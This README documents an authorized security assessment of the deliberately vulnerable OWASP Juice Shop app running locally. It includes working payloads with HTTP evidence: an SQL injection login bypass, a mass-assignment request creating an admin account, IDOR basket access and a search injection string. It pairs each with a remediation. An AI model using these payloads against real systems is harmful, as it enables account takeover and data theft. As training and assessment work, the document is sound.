



# OWASP Juice Shop — Web Application Security Assessment


---

## Executive Summary & Document Control

| Attribute | Detail |
|---|---|
| **Project** | OWASP Juice Shop Web Application Security Assessment |
| **Target Application** | OWASP Juice Shop (v16.0.0-SNAPSHOT / Express 4.21) |
| **Deployment Mode** | Local isolated Docker container (`127.0.0.1:3000`) |
| **Assessment Window** | September 24–25, 2026 |
| **Lead Security Researcher** | **Aryan Singh** (Cybersecurity / Security Research) |
| **Full Technical Report** | [Download Full Assessment Report (PDF)](./report/Web_sec_rp.pdf) |
| **Scope & Recon Records** | [Assessment Scope](./scope.md) \| [Reconnaissance Notes](./recon.md) |
| **Evidence Directory** | [`./evidence/`](./evidence/) |

---

## 1. Project Overview & Assessment Objective

This repository contains a comprehensive, evidence-backed security assessment of the **OWASP Juice Shop** web application. OWASP Juice Shop is an intentionally vulnerable modern web architecture built with a Node.js/Express backend, Angular single-page frontend, SQLite/Sequelize datastore, and RESTful APIs.

### Primary Objectives
- **Identify and evaluate exploitable security vulnerabilities** across authentication, authorization, input validation, and access control boundaries.
- **Correlate black-box/grey-box dynamic findings with source-code root causes** within the application logic.
- **Document evidence-based findings with zero fabrication**, ensuring every reported issue is strictly tied to verifiable telemetry, HTTP transactions, or concrete source code paths.
- **Formulate enterprise-grade remediation guidance** adhering to OWASP best practices and defense-in-depth principles.

---

## 2. Target & Testing Environment

- **Target Host**: `127.0.0.1` (localhost)
- **Target Port**: `3000/TCP` (HTTP)
- **Container Architecture**: Docker container (`bkimminich/juice-shop`) mapped to host port 3000
- **Runtime Stack**: Node.js v20.x, Express.js v4.21.2, Sequelize ORM, SQLite datastore, Angular SPA frontend
- **Network Isolation**: The test environment was isolated to a local Docker bridge network with no ingress or egress access to third-party or production systems.



---

## 3. Authorization, Ethical Scope & Rules of Engagement

- **Strict Lab Authorization**: All testing activities were executed strictly against a local containerized training deployment under explicit administrative authority.
- **No External Testing**: No third-party infrastructure, public cloud assets, or external networks were targeted.
- **Data Protection & Sanitization**: 
  - No persistent denial-of-service was executed.
  - Live session credentials, active JSON Web Tokens (JWTs), cryptographic private keys, and proprietary sample data have been completely redacted or omitted from all committed artifacts.
  - All demonstration payloads used non-destructive test strings.

---

## 4. Assessment Methodology & Workflow

The engagement was conducted using a hybrid **Grey-Box Assessment Methodology** combining black-box dynamic application security testing (DAST) with targeted source-code review:



1. **Reconnaissance & Surface Mapping**: Network enumeration of open services, active endpoints, REST route structures, and HTTP security header posture.
2. **Dynamic Vulnerability Probing**: Focused manual testing of access control, user authentication, parameter manipulation, and input filtering.
3. **Source Code Auditing**: Direct examination of the underlying TypeScript/JavaScript controllers, ORM query building, and middleware pipelines to confirm root causes.
4. **Evidence Correlation**: Cross-referencing HTTP request/response transcripts with source line numbers to eliminate false positives.
5. **Remediation Engineering**: Defining code-level and architectural fixes for every confirmed flaw.

---

## 5. Security Tools & Technologies

| Category | Tool | Purpose in Assessment |
|---|---|---|
| **Network Scanning** | `Nmap 7.991` | Port identification, service banner fingerprinting, service verification |
| **HTTP Interception** | `Burp Suite Community` / `curl` | Manual API testing, request manipulation, parameter tampering |
| **Static Code Analysis** | Manual AST Review / `Semgrep` | Source code vulnerability discovery and route validation |
| **Platform / Runtime** | `Docker` / `Node.js` | Container isolation, runtime environment management |
| **Documentation & Quality** | `LaTeX` / `pypdf` | Executive and technical security report compilation |

---

## 6. Key Findings

The following table summarizes the vulnerabilities that were **dynamically validated** against the active target instance and correlated with source-code analysis:

| # | Vulnerability Finding | Severity | Endpoint | Assessment Status |
|---|---|---|---|---|
| **1** | SQL Injection / Authentication Bypass | **Critical** | `POST /rest/user/login` | Confirmed exploitable authentication bypass |
| **2** | Mass Assignment / Administrative Account Creation | **High** | `POST /api/Users/` | Confirmed unauthenticated admin account creation |
| **3** | IDOR / BOLA | **High** | `GET /rest/basket/{id}` | Confirmed cross-user basket data retrieval |
| **4** | Directory Listing / Sensitive File Exposure | **Medium** | `GET /ftp/` | Confirmed unauthenticated file enumeration & access |
| **5** | Verbose Error / Stack Trace Disclosure | **Low–Medium** | `GET /redirect?to=invalid` | Confirmed internal architecture & stack frame leakage |
| **6** | Product Search SQL Injection | **High** *(Validated)* | `GET /rest/products/search?q=` | Validated SQL injection behavior *(No database extraction claimed)* |

---

### Finding 1: SQL Injection — Authentication Bypass
- **Severity**: `CRITICAL` (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H — 9.8)
- **Target Endpoint**: `POST /rest/user/login`
- **Source File**: `target-source/routes/login.ts` (lines 32–55)
- **Root Cause**: The login controller extracts `req.body.email` and directly concatenates it into a raw Sequelize SQL template string:
  ```typescript
  models.sequelize.query(
    `SELECT * FROM Users WHERE email = '${req.body.email || ''}' AND password = '${security.hash(req.body.password || '')}' AND deletedAt IS NULL`,
    { model: UserModel, plain: true }
  )
  ```
- **Vulnerable Data Flow**:
  1. An unauthenticated client sends `{"email": "' OR 1=1--", "password": "any"}`.
  2. The input breaks out of the single-quoted SQL literal.
  3. The injected `--` comments out the password verification and soft-deletion clauses.
  4. The query returns the first database row (`admin@juice-sh.op`, User ID 1).
  5. The server issues a valid administrative JWT session token.
- **Dynamic Verification**: [Evidence File: `login-sqli-auth-bypass.txt`](./evidence/login-sqli-auth-bypass.txt)
  <details>
  <summary>View Verification Telemetry</summary>

  ```http
  POST /rest/user/login HTTP/1.1
  Host: 127.0.0.1:3000
  Content-Type: application/json

  {"email":"' OR 1=1--","password":"anything"}

  HTTP/1.1 200 OK
  Content-Type: application/json; charset=utf-8

  {
    "authentication": {
      "token": "[REDACTED_FOR_SECURITY]",
      "bid": 1,
      "umail": "admin@juice-sh.op"
    }
  }
  ```
  </details>
- **Remediation**: Use Sequelize ORM finder methods or parameter replacements (`{ replacements: { email, password } }`). Never interpolate user input directly into SQL strings.

---

### Finding 2: Mass Assignment — Privilege Escalation
- **Severity**: `HIGH` (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:N — 8.1)
- **Target Endpoint**: `POST /api/Users/`
- **Source File**: `target-source/server.ts` (lines 500–537) and `target-source/models/user.ts`
- **Root Cause**: The API exposes auto-generated REST endpoints via `finale-rest` for the `User` model. While sensitive response attributes (`password`, `totpSecret`) are excluded, incoming request bodies are bound directly to `UserModel.create(req.body)` without allowlisting writable fields.
- **Vulnerable Data Flow**:
  1. An unauthenticated client submits a user registration payload explicitly specifying `"role": "admin"`.
  2. The endpoint passes the raw object into the datastore.
  3. The newly created account is persisted with full administrative privileges.
- **Dynamic Verification**: [Evidence File: `mass-assignment-admin.txt`](./evidence/mass-assignment-admin.txt)
  <details>
  <summary>View Verification Telemetry</summary>

  ```http
  POST /api/Users/ HTTP/1.1
  Host: 127.0.0.1:3000
  Content-Type: application/json

  {
    "email": "massassignment-test-2026@example.com",
    "password": "MassTest123!",
    "passwordRepeat": "MassTest123!",
    "securityQuestion": {"id": 1, "answer": "test"},
    "role": "admin"
  }

  HTTP/1.1 201 Created
  Content-Type: application/json; charset=utf-8

  {
    "status": "success",
    "data": {
      "id": 26,
      "email": "massassignment-test-2026@example.com",
      "role": "admin",
      "updatedAt": "2026-09-24T16:46:12.381Z",
      "createdAt": "2026-09-24T16:46:12.381Z"
    }
  }
  ```
  </details>
- **Remediation**: Enforce a strict DTO (Data Transfer Object) allowlist on user registration. The `role` property must be managed server-side and defaulted to `customer`.

---

### Finding 3: Broken Object-Level Authorization (IDOR) — Basket Access
- **Severity**: `HIGH` (CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:N/A:N — 6.5)
- **Target Endpoint**: `GET /rest/basket/{id}`
- **Source File**: `target-source/routes/basket.ts` (lines 15–36)
- **Root Cause**: The route validates that a requester is authenticated (`security.isAuthorized()`), but fails to verify that the requesting user owns the basket ID supplied in `req.params.id`:
  ```typescript
  const id = req.params.id
  const basket = await BasketModel.findOne({
    where: { id },
    include: [{ model: ProductModel, paranoid: false, as: 'Products' }]
  })
  ```
- **Vulnerable Data Flow**:
  1. Authenticated customer user 25 (with own basket ID 6) requests `GET /rest/basket/1`.
  2. The database fetches the basket for User ID 1 (`admin`).
  3. The server serializes and returns User ID 1's products, quantities, and pricing data.
- **Dynamic Verification**: [Evidence File: `idor-basket.txt`](./evidence/idor-basket.txt)
  <details>
  <summary>View Verification Telemetry</summary>

  ```http
  GET /rest/basket/1 HTTP/1.1
  Host: 127.0.0.1:3000
  Authorization: Bearer [AUTHENTICATED_USER_25_TOKEN]

  HTTP/1.1 200 OK
  Content-Type: application/json; charset=utf-8

  {
    "status": "success",
    "data": {
      "id": 1,
      "UserId": 1,
      "Products": [...]
    }
  }
  ```
  </details>
- **Remediation**: Validate that `req.params.id === req.user.bid` or that `req.user.role === 'admin'`. Alternatively, eliminate client-controlled basket IDs and retrieve baskets using server-side session claims (`GET /rest/basket/me`).

---

### Finding 4: FTP Directory Listing & Sensitive File Exposure
- **Severity**: `MEDIUM` (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N — 5.3)
- **Target Endpoint**: `GET /ftp/` and `GET /ftp/{file}`
- **Source Files**: `target-source/server.ts` (lines 287–289) and `target-source/routes/fileServer.ts`
- **Root Cause**: 
  1. The Express server registers `serveIndex('ftp', { icons: true })` without requiring authentication, allowing complete enumeration of filesystem contents.
  2. `routes/fileServer.ts` permits unauthenticated downloads of any `.md` or `.pdf` file (or `incident-support.kdbx`).
  3. Proprietary business documents (`acquisitions.md`) and credential store databases (`incident-support.kdbx`) are stored directly inside the public FTP directory.
- **Dynamic Verification**: [Evidence Files: `directory-listing-ftp.txt`](./evidence/directory-listing-ftp.txt) \| [`sensitive-file-exposure.txt`](./evidence/sensitive-file-exposure.txt)
  <details>
  <summary>View Verification Telemetry</summary>

  ```http
  GET /ftp/ HTTP/1.1
  Host: 127.0.0.1:3000

  HTTP/1.1 200 OK
  Content-Type: text/html; charset=utf-8

  <!-- Exposes: acquisitions.md, incident-support.kdbx, package.json.bak, etc. -->

  GET /ftp/acquisitions.md HTTP/1.1
  Host: 127.0.0.1:3000

  HTTP/1.1 200 OK
  Content-Type: text/markdown; charset=UTF-8

  # Planned Acquisitions 2026/2027
  - Confidential corporate acquisition targets...
  ```
  </details>
- **Remediation**: Disable `serveIndex` directory indexing in production environments. Remove confidential files and backup artifacts from public web trees. Implement role-based access control on static file delivery routes.

---

### Finding 5: Verbose Error & Stack Trace Information Disclosure
- **Severity**: `LOW-MEDIUM` (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:N/A:N — 5.3)
- **Target Endpoint**: `GET /redirect?to=invalid`
- **Source Files**: `target-source/server.ts` (lines 699–701) and `target-source/routes/redirect.ts`
- **Root Cause**: The application unconditionally enables the development middleware `errorhandler()` in `server.ts`. When `performRedirect()` encounters an unallowed redirect target, it executes `next(new Error('Unrecognized target URL for redirect: ' + toUrl))` with status 406. The error handler intercepts this and prints the complete Node.js/Express stack trace and internal server paths to the client.
- **Dynamic Verification**: [Evidence File: `verbose-error-disclosure.txt`](./evidence/verbose-error-disclosure.txt)
  <details>
  <summary>View Verification Telemetry</summary>

  ```http
  GET /redirect?to=invalid HTTP/1.1
  Host: 127.0.0.1:3000

  HTTP/1.1 406 Not Acceptable
  Content-Type: text/html; charset=utf-8

  Error: Unrecognized target URL for redirect: invalid
      at performRedirect (/juice-shop/build/routes/redirect.js:21:18)
      at Layer.handle [as handle_request] (/juice-shop/node_modules/express/lib/router/layer.js:95:5)
  ```
  </details>
- **Remediation**: Disable `errorhandler()` in production builds. Implement a centralized production error handler that logs technical traces securely to internal log sinks while returning generic, safe error responses to users.

---

### Finding 6: Product Search SQL Injection (Query Disruption & Error Behavior)
- **Severity**: `HIGH` *(Potential for Critical)* (CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:N/A:N — 7.5)
- **Target Endpoint**: `GET /rest/products/search?q=`
- **Source File**: `target-source/routes/search.ts` (lines 19–73)
- **Dynamic Demonstration vs. Source Analysis Distinction**:
  - **Dynamic Finding**: Injecting `' OR '1'='1' --` consistently yielded `HTTP 500 Internal Server Error` with `SQLITE_ERROR: incomplete input`. Successful boolean-based or UNION-based database extraction was **NOT** dynamically demonstrated in the test records, and is therefore **not claimed as exploited**.
  - **Source Code Root Cause**: Review of `routes/search.ts` reveals that user input `criteria` is directly interpolated into raw SQL:
    ```typescript
    models.sequelize.query(
      `SELECT * FROM Products WHERE ((name LIKE '%${criteria}%' OR description LIKE '%${criteria}%') AND deletedAt IS NULL) ORDER BY name`
    )
    ```
    The query utilizes nested opening parentheses: `WHERE ((name LIKE ...`. Injecting `' OR '1'='1' --` comments out the closing parentheses `))`, causing SQLite's parser to halt with `SQLITE_ERROR: incomplete input`.
  - While arbitrary UNION-based SQL extraction is architecturally possible when parentheses are properly balanced in the payload, dynamic testing was halted upon confirming user-controlled SQL parser disruption.
- **Dynamic Verification**: [Evidence File: `sql-injection-search.txt`](./evidence/sql-injection-search.txt)
  <details>
  <summary>View Verification Telemetry</summary>

  ```http
  GET /rest/products/search?q=' OR '1'='1' -- HTTP/1.1
  Host: 127.0.0.1:3000

  HTTP/1.1 500 Internal Server Error
  Content-Type: text/html; charset=utf-8

  SQLITE_ERROR: incomplete input
  ```
  </details>
- **Remediation**: Rewrite search queries using Sequelize parameterized expressions (`Op.like` with `ProductModel.findAll`) or bound replacement parameters.

---

## 7. Source-Only Vulnerability Observations (Not Dynamically Exploited)

The following severe vulnerability patterns were identified during the source-code review of `target-source/`. In accordance with ethical testing guidelines, **these issues were not actively exploited** against the live instance:

| # | Vulnerability Observation | Source File | Root Cause Summary | Potential Impact |
|---|---|---|---|---|
| **S-01** | Insecure Code Evaluation / Sandbox Escape | `routes/b2bOrder.ts` | Evaluates user input `body.orderLinesData` using `vm.runInContext` and `notevil`'s `safeEval`. | Remote Code Execution (RCE) in Node.js runtime |
| **S-02** | Unauthenticated XML External Entity (XXE) | `routes/fileUpload.ts` & `lib/xml.ts` | `libxml2-wasm` configured with `XML_PARSE_NOENT` and host filesystem access enabled, reflecting output in 410 errors. | Arbitrary local file disclosure (`/etc/passwd`), Denial of Service |
| **S-03** | Arbitrary File Overwrite (Zip Slip) | `routes/fileUpload.ts` | Unvalidated archive extraction via `unzipper` checking only if resolved paths contain `path.resolve('.')`. | Arbitrary file write / path traversal across project tree |
| **S-04** | Server-Side Request Forgery (SSRF) | `routes/profileImageUrlUpload.ts` | Unrestricted `await fetch(url)` on client-supplied image URLs without IP or scheme allowlisting. | Internal service scanning, cloud metadata compromise (`169.254.169.254`) |
| **S-05** | Hardcoded RSA Private Key & Weak JWT Validation | `lib/insecurity.ts` | RSA private key hardcoded in plaintext; JWT verification accepts arbitrary algorithms without restriction. | Offline cryptographic token forgery, total authentication bypass |

---

## 8. Strategic Remediation Themes



1. **Parameterization and Safe Query Abstraction**:
   - Mandate parameterized queries across all database operations.
   - Prohibit string concatenation in SQL queries and enforce static linting rules (`eslint-plugin-security`) to block vulnerable raw query patterns.
2. **Robust Object-Level Access Control (BOLA/IDOR Defense)**:
   - Establish centralized authorization filters that verify resource ownership against verified JWT claims prior to database retrieval.
3. **Strict Mass-Assignment Defenses**:
   - Enforce explicit Data Transfer Object (DTO) schemas using libraries such as Zod or Joi to ensure clients cannot bind unauthorized attributes (`role`, `isAdmin`).
4. **Environment Hardening & Production Hygiene**:
   - Decommission development error middleware (`errorhandler()`) in production containers.
   - Relocate backup files, credentials, and sensitive internal documentation out of public web directories.

---

## 9. Key Lessons & Research Observations

- **ORM Usage Does Not Guarantee SQLi Immunity**: Using Sequelize did not prevent SQL injection because developers bypassed the ORM abstraction and invoked raw SQL queries with string interpolation.
- **Authentication ≠ Authorization**: The application rigorously verified JWT token validity on `/rest/basket/:id`, but failed to check whether the requester owned the requested basket, highlighting the critical distinction between authentication and object-level authorization.
- **Framework Defaults Matter**: Leaving development-mode handlers active in production transforms minor runtime errors into severe reconnaissance vectors for external attackers.
- **Source Code Verification Validates Ambiguous DAST Data**: Dynamic testing of the search endpoint produced syntax errors (`SQLITE_ERROR: incomplete input`), which could easily have been misclassified as a generic server malfunction. Direct source code review proved that the parameter was directly concatenated into SQL, definitively confirming vulnerability.

---

## 10. Repository Structure

```
projects/owasp-juice-shop-security-assessment/
├── README.md                                  # Comprehensive assessment overview & methodology
├── report/
│   └── Web_sec_rp.pdf                         # Final 17-page formal assessment report (PDF)
├── scope.md                                   # Formal authorization & scope definition
├── recon.md                                   # Port scan & service reconnaissance notes
├── scans/                                     # Automated security & network scans
│   ├── nmap-3000.txt                          # Port 3000 service detection scan
│   └── semgrep-javascript.json                # Static security scan output
└── evidence/
    ├── baseline-docker.txt                    # Local container environment verification
    ├── baseline-http.txt                      # Initial HTTP service validation
    ├── nmap-3000.txt                          # Port 3000 service detection scan
    ├── http-headers.txt                       # Baseline HTTP response headers
    ├── login-sqli-auth-bypass.txt             # SQL injection login bypass evidence
    ├── idor-basket.txt                        # IDOR foreign basket access evidence
    ├── mass-assignment-admin.txt              # Mass assignment privilege escalation evidence
    ├── directory-listing-ftp.txt              # FTP directory enumeration evidence
    ├── verbose-error-disclosure.txt           # Stack trace disclosure evidence
    ├── sensitive-file-exposure.txt            # Acquisitions document disclosure evidence
    └── sql-injection-search.txt               # Product search SQL disruption evidence
```

---

## 11. Disclaimer

> **Notice**: OWASP Juice Shop is an intentionally vulnerable web application created by the OWASP Foundation for security training, awareness, and educational purposes. All security testing documented in this portfolio project was conducted strictly against an isolated, locally hosted Docker instance under authorized conditions. No real-world, production, or unauthorized systems were assessed.

---

## Author & Contact

**Aryan Singh**  
Cybersecurity Researcher & Information Technology Professional  
- **GitHub**: [@tigpy](https://github.com/tigpy)  
- **Portfolio Project Repository**: [cybersecurity-learning](https://github.com/tigpy/cybersecurity-learning)

